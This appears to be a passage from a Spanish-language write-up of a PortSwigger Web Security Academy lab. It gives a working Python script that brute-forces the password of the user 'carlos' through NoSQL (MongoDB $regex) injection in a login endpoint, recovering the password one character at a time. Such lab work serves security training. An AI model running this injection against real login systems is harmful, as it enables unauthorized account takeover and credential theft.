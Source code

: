 Como `alternativa` al `Cluster bomb` podemos usar este `script` en `python`

{% raw %}
```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, sys, string
import json

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://0a6600d8049f2b72804ed06900ef0098.web-security-academy.net/login"

characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(0, 50):
            for character in characters:
                json = {
                    "username": "carlos",
                    "password": {"$regex": f"^.{{{position}}}{character}.*"}
                }

                headers = {
                    "Content-Type": "application/json"
                }

                p1.status(json['password'])

                r = requests.post(url, headers=headers, json=json)

                if "Account locked: please reset your password" in r.text:  
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
{% endraw %}
